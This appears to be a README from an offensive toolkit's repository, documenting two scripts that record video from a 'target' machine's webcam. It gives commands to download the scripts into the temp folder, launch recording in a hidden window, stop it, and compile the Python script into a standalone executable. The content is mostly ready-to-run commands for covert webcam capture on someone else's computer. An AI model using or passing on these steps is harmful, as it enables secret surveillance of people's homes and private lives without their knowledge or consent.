 ## WebCam.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[WebCam](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/WebCam.py)|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/WebCam.py" -OutFile "$Env:TMP\WebCam.py"
```

<br />

**prerequesites checks:**
```powershell
#Check if Pthon3 its installed
[bool](python3 -V)

#Check if opencv its installed
[bool](pip3 list|findstr /C:"opencv-python")

[OPTIONAL] #Install opencv and numpy modules
pip3 install opencv-python
```

<br />

**execute:**
```powershell
#Search for python 'site-packages' directory
gci "$Env:LOCALAPPDATA\Programs" -Recurse -Force|?{$_.PSIsContainer -Match "True" -and $_.Name -iMatch 'site-packages'}

#Edit WebCam.py and change next cmdline to point to your 'python\site-packages' directory
#Remark: remmenber to add double backslashs to your path ( eg. C:\\path\\path\\path\\path )
sys.path.append("c:\\users\\pedro\\appdata\\local\\programs\\python\\python39\\lib\\site-packages")

#Start capture
cd $Env:TMP;Start-Process -WindowStyle hidden python3 -ArgumentList "WebCam.py"

#Stop capture
Stop-Process -Name "python3.*" -Force
```

<br />

**Final Notes:**
```powershell
Video recording its stored on WebCam.py current directory under the name: "outpy.avi"
WebCam.py can be compiled to exe using pyinstaller: pyinstaller –onefile "WebCam.py"
```

<br /><br />


## Invoke-WebCamAvi.ps1

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-WebCamAvi](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/Invoke-webcamAvi.ps1)|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/Invoke-WebCamAvi.ps1" -OutFile "$Env:TMP\Invoke-WebCamAvi.ps1"
```

<br />

**run cmdlet:**
```powershell
#Get module help
Get-Help .\Invoke-WebCamAvi.ps1 -full

#Record webcam live stream for 15 seconds time
.\Invoke-WebCamAvi.ps1 -RecTime '15'

#Record webcam live and use %TMP% as working directory
.\Invoke-WebCamAvi.ps1 -WorkingDir "$Env:TMP"

#Record webcam live and auto-start AVI file after finish?
.\Invoke-WebCamAvi.ps1 -AutoView 'true'
```

<br />

**Final Notes:**
```powershell
Invoke-WebCamAvi cmdlet automates the execution of 'WebCam.py' and all is dependencies.
Video recording its stored on WebCam.py current directory under the name: "outpy.avi"
```
